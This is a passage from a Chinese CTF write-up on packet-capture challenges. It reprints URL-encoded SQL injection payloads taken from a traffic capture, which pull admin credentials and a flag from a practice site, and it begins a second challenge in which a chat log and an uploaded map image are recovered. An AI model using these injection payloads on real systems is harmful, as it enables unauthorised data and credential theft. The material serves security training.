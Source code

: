 打开 18.pcapng，过滤出HTTP的请求

![Alt text](http://static.cizel.cn/nextone/5_4.png)

打开网站一看

![Alt text](http://static.cizel.cn/nextone/5_3.png)

是一个联系网站注入的界面，读取这些post的请求就可以看出，一次一次的注入测试。

	uname=as&passwd=asss&submit=Submit
	
	uname=as%22%29%20UNION%20ALL%20SELECT%20CONCAT%280x7176766a71%2CIFNULL%28CAST%28DATABASE%28%29%20AS%20CHAR%29%2C0x20%29%2C0x716a626a71%29%2CNULL%23&passwd=asss&submit=Submit
	
	uname=as%22%29%20UNION%20ALL%20SELECT%20%28SELECT%20CONCAT%280x7176766a71%2CIFNULL%28CAST%28%60user%60%20AS%20CHAR%29%2C0x20%29%2C0x6b736c707066%2CIFNULL%28CAST%28pass%20AS%20CHAR%29%2C0x20%29%2C0x716a626a71%29%20FROM%20Less_6.admin%20LIMIT%200%2C1%29%2CNULL%23&passwd=asss&submit=Submit

最后一次注入成功拿到Flag

	SELECT congratulation, ticket FROM successful WHERE congratulation=("as") UNION ALL SELECT (SELECT CONCAT(0x7176766a71,IFNULL(CAST(`user` AS CHAR),0x20),0x6b736c707066,IFNULL(CAST(pass AS CHAR),0x20),0x716a626a71) FROM Less_6.admin LIMIT 0,1),NULL#") and ticket=("asss") LIMIT 0,1
	qvvjqadminkslppfflag{6c0d68b0-c638-4fb5-a8f5-fdc756daf7e0}qjbjq

### 大黑阔

打开 19.pcapng，过滤出POST的请求 http.request.method==POST

当 POST /webchat/chat/sendmes.php HTTP/1.1

发现是2个人在对话，内容如下：

	i am here what?
	i don't have idea
	i don not have idea
	。。。
	but i was born in tangshan
	sounds like not bad
	where is that?
	if it is a place with water....
	i can not swim
	i have no idea
	what meaning?
	what is 100?
	yes....
	but i really do not know the way
	**canyou show me the way in the map?**
	ok
	see that?
	en..

重点在哪个Map图片上面 POST /upfile/upload_file.php HTTP/1.1

图片是JPG格式的，按照JPG格式进行解析,得到一个中国地图的图片，放大
